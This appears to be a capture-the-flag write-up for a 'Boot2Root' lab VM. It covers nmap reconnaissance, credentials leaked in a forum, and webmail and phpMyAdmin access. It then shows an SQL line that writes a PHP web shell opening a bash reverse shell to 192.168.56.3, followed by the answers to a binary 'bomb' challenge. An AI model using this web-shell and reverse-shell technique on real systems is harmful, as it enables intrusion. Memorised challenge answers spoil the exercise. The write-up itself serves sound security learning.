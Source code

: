 # Boot2Root

## Write-Up 1

After the vm setup the VM

Scan network to find ip:
`nmap -sP -sn 192.168.56.0/24`


Scan open port for the IP:
`nmap 192.168.56.4`


Detect routes:
`nmap -sV --script=http-enum 192.168.56.4`

```sh
21/tcp  open  ftp        vsftpd 2.0.8 or later
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
143/tcp open  imap       Dovecot imapd
443/tcp open  ssl/http   Apache httpd 2.2.22
| http-enum:
|   /forum/: Forum
|   /phpmyadmin/: phpMyAdmin
|   /webmail/src/login.php: squirrelmail version 1.4.22
|_  /webmail/images/sm_logo.png: SquirrelMail
|_http-server-header: Apache/2.2.22 (Ubuntu)
993/tcp open  ssl/imaps?
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.18 seconds
```

We can observe:
    
- Ports open:

    21/tcp  open  ftp        vsftpd 2.0.8 or later

    22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)

    80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))

    143/tcp open  imap       Dovecot imapd

    443/tcp open  ssl/http   Apache httpd 2.2.22

    993/tcp open  ssl/imaps?

- 4 Routes on port 443:

    /forum/: Forum

    /phpmyadmin/: phpMyAdmin

    /webmail/src/login.php: squirrelmail version 1.4.22

    /webmail/images/sm_logo.png: SquirrelMail


- Forum:
    We can curl the forum to see

```sh
curl --insecure 'https://192.168.56.4/forum/' | grep href | tr "<>" "\n" | grep href | sed 's/.* href/\
href/g' | cut -d "=" -f2 | sed '/^..*$/!d'
```

```
"themes/default/style.min.css" media
"index.php?mode
"index.php?mode
"themes/default/images/favicon.ico" /
"./" title
"index.php?mode
"index.php?mode
"index.php?mode
"index.php?refresh
"index.php?mode
"index.php?fold_threads
"index.php?toggle_view
"index.php?id
"index.php?mode
"index.php?id
"index.php?mode
"index.php?id
"index.php?mode
"index.php?id
"index.php?id
"index.php?mode
"index.php?id
"index.php?mode
"index.php?mode
"index.php?mode
"http://mylittleforum.net/"
```

From the web browser we can read a topic intitled "Probleme login?"
`https://192.168.56.4/forum/index.php?id=6`

We found inside 2 important data that we cannot guess, a username `lmezard` and a password `!q\]Ej?*5K5cy*AJ`

We can see inside many log about failed connection try
`curl --insecure 'https://192.168.56.4/forum/index.php?id=6' | grep 'Failed password'`

We found a password but doesn't work on ssh

We will try on the webmail service

Doesn't work either

Instead, if we try to login on the forum 

It works for te user `lmezard`

Now we are logged we can see that there is no real difference between the previous situation, exept for the user space

Inside the user spae we found the lmezard's email,that's `laurie@borntosec.net`

We can try to log to the webmail server at `webmail/src/login.php`

It works with the same password

There's a mail with db access

We can connect to the phpmyadmin dashboard

From here you can launch a reverse shell

```sql
SELECT "<?= exec('/bin/bash -c \"bash -i 2>&1 > /dev/tcp/192.168.56.3/8080 0>&1 \"');" INTO OUTFILE '/var/www/forum/templates_c/7.php'
```

we cat the file in `/home/LOOKATME/password`

we found inside the lmezard's password
```
cat LOOKATME
^[[A 2>&1
cat: LOOKATME: Is a directory
ls LOOKATME
password
cat LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```
> lmezard doesn't have SSH access

we can log with the user and password

A README file tell us that we have to solve the fun challenge to get the ssh password for laurie user

Fun is a tar archive, with a c code split in many text files

after reagrrange files in order we can see that laurie password is a sha256 hash `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4` from the string `Iheartpwnage`
:wq:wq
After connect to laurie by ssh, another README tell us to solve the bomb challenge to get the Thor's password

The Bomb is a program that takes lines in input. There is 6 Phases (Levels)

Phase 1:

`Public speaking is very easy.`

Phase 2:
> 6 numbers following the `U(n+1)=n+1*U(n)` suite

`1 2 6 24 120 720`

Phase 3:
> There is 8 correct answer, under the format `%d %c %d`

`0 q 777`
`1 b 214`
`2 b 755`
`3 k 251`
`4 o 160`
`5 t 458`
`6 v 780`
`7 b 524`

> For the final answer only this soltuion works: `1 b 214`


Phase 4:
> Fibonacci suite, we search for fibonacci(x)=55

`9`

> There is a secret phase, who don't change the final result with `9 austinpowers` and the solution is `1001`

Phase 5:
> Matching between a formula's result on 6 char long string and the string `giants`

`opekmq`

Phase 6:
> 6 node of a chained list, that we need to reorder in decending order. Specify the order with 6 digits between 1-6

`4 2 6 3 1 5`

`Publicspeakingisveryeasy.126241207201b2149opekmq426315`
> We got an asset that tells we need to permute the n-1 and n-2 chars in the key

`Publicspeakingisveryeasy.126241207201b2149opekmq426135`
> this is thor's ssh password

In thor Home there is a turtle bot who draw `SLASH` on the screen, the readme wink us with a `digest` reference who leads us to hash the word and md5 is our key for the zaz kingdom

